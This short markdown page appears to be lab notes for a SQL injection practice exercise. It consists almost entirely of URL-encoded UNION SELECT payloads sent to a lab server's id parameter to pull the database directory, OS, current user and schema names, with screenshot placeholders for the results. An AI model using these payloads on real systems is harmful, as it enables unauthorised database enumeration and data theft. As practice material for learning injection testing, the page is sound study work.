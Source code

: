 `http://10.101.177.100:9990/Less-1/?id=-1%27%20union%20select%201,@@datadir,3--+`

![](assets/markdown-img-paste-20180417164813721.png)

`http://10.101.177.100:9990/Less-1/?id=-1%27%20union%20select%201,@@version_compile_os,3--+`

![](assets/markdown-img-paste-20180417164934589.png)

`http://10.101.177.100:9990/Less-1/?id=-1%27%20union%20select%201,user(),3--+`

![](assets/markdown-img-paste-20180417165009244.png)

`http://10.101.177.100:9990/Less-1/?id=-1%27%20union%20select%201,group_concat(schema_name),3 from information_schema.schemata--+`

![](assets/markdown-img-paste-20180417170002922.png)
